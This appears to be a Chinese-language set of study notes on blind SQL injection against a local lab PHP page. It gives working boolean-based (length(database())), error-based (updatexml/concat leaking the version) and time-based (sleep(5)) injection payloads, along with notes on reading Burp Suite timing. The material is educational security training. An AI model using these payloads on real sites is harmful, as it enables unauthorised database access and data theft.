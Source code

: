 ```plain
只是执行了这个语句，并不会显示。
显示代码：
while($row=mysql_fetch_array($result)){
    echo '<br><br><hr>';
    echo $row['id'];
    echo $row['gName'];
    
 如果注释了这个代码，那么他不会进行显示
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135675676-68c7b5fb-7243-4167-962a-9af583a1b8bb.png)

如果没有显示，这个时候就采用盲注来进行攻击

布尔

```plain
布尔盲注：---逻辑判断
函数：regexp,like,ascii,left,ord,mid
判断数据库名字是否为7，判断数据库长度
127.0.0.1:8081/web/mysql/news.php?id=1 and length(database())=1
页面错误
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135675673-2b3acf03-4c11-4efe-b611-cabca6880b52.png)

```plain
如果是正确的数据库长度，127.0.0.1:8081/web/mysql/news.php?id=1 and length(database())=11
页面就正常显示
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135675677-7da23670-670d-4f4b-b3ab-a8e628d70703.png)

报错

```plain
SQL语句在执行的时候，$result=mysql_query($sql,$conn) or die(mysql_error());这样写才可以生效，容错处理。
语句参考：https://www.jianshu.com/p/bc35f8dd4f7c
127.0.0.1:8081/web/mysql/news.php?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135675675-0fc09f76-2cf9-44be-b9c4-50c8ee0a70e8.png)

延时

```plain
延时盲注：
判断标准：先判断初始化的时间，然后在进行延迟测试判断的时间，两个时间的不同来进行判断是否有延迟
127.0.0.1:8081/web/mysql/news.php?id=1 and if(1=1,sleep(5),0)
一般结合布尔盲注来进行测试，在1=1做文章。
```

判断是否延迟，主要看两个不同数据包的返回包时间差，在burpsuite下的右下角

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676030-3a1a6ba0-a331-48f8-be51-2afc8556a20c.png)

